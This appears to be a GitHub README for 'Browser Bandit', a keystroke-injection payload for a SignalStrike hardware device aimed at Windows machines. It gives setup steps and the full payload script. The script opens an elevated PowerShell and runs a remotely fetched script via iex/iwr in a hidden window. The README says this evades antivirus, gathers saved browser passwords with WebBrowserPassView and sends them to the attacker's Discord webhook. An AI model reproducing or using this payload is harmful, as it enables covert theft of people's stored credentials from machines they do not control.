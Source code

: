 # **Browser Bandit (SignalStrike)**

## Requirements:

- **Hardware**: Code-382 SignalStrike ([store](https://code-382.eu/index.php/product/signalstrike/))
- **Attacker**: Windows/Linux/MacOS/Android/iOS with Discord installed
- **Target**: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 SignalStrike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a `.txt` file, which is then transmitted to the attacker’s Discord Webhook.

## 1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

1. Create a new Discord server (if you don’t have one already).
2. Right-click on the server icon and select **Server Settings**.
3. Navigate to **Integrations > New Webhook**.
4. Copy the webhook link and save it somewhere safe for later use.

## 2. Download `Payload.txt`

Next, you need to download `Payload.txt`. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the `Payload.txt` file, locate line 12 and replace `<DISCORD WEBHOOK HERE>` with your actual Discord webhook URL (without the angle brackets `<>`).

### `Payload.txt`

```bash
DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER

3. Upload Your Payload to SignalStrike

    Plug in your SignalStrike device.
    Connect to its WiFi network (Default SSID: SignalStrike, Password: SignalStrike).
    Open a web browser and go to 192.168.4.1 to access the control panel.
    Create a new payload and name it "Browser Bandit".
    Paste your modified Payload.txt (with the webhook) into the text box provided.
    Save the payload and execute it.
